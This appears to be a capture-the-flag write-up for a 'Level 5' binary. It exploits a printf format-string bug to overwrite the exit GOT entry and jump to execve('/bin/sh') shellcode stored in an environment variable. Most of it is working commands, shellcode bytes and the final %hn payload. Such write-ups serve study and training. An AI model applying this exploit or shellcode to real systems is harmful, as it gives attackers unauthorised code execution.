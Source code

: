 # Level 5

## the code

the program reads 100 chars on stdin and stores them in a size 100 buffer.
Upercases are then converted to lowercases and the result printed with
an unsecure printf(s). A call to exit follows.

## idee:

replace exit by our shellcode in the Global Offset Table. We have to be carefull not having values between 64 and 90 in our injection code. We can't then put directly our shellcode in the string. We will therefore put it
in a env variable and make the GOT address points to it.

### printf args offset

```sh
$ python -c 'print "AAAA" + ".%08x" * 12' | ./level05
aaaa.00000064.f7fcfac0.f7ec3add.ffffd69f.ffffd69e.00000000.ffffffff.ffffd724.f7fdb000.61616161.3830252e.30252e78
```

'a' is 0x61 and the offset is 10.

### exit GOT address

```sh
$ objdump -R ./level05

./level05:     file format elf32-i386

DYNAMIC RELOCATION RECORDS
OFFSET   TYPE              VALUE
080497c4 R_386_GLOB_DAT    __gmon_start__
080497f0 R_386_COPY        stdin
080497d4 R_386_JUMP_SLOT   printf
080497d8 R_386_JUMP_SLOT   fgets
080497dc R_386_JUMP_SLOT   __gmon_start__
080497e0 R_386_JUMP_SLOT   exit
080497e4 R_386_JUMP_SLOT   __libc_start_main
```

exit address stored at 08 04 97 e0 (no values between 64 (\x41) and 90 (\x5a))
cut in two addresses: 080497e0 and 080497e2

### shellcode in an env variable

```sh
$ cd /tmp
$ vim gev.c
$ gcc -m32 gev.c
$ export OPLA=`python -c 'print("\x90" * 50 + "\x31\xc0\x99\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x53\x89\xe1\xb0\x0b\xcd\x80")'`
$ ./a.out
OPLA will be near 0xffffdecf
```

to reach the middle of the slope we add 24

| format |  low  |   high |
| :----: | :---: | -----: |
|  hex   | decf  |   ffff |
|  dec   | 57039 |  65535 |
| slope  | + 24  |     -- |
|  dec   | 57063 |  65535 |
| offset |  -8   | -57063 |
| magic  | 57055 |   8472 |

## the hack

(python -c 'print("\xe0\x97\x04\x08" + "\xe2\x97\x04\x08" + "%57055x%10$hn" + "%8472x%11$hn")' ; cat) | ./level05
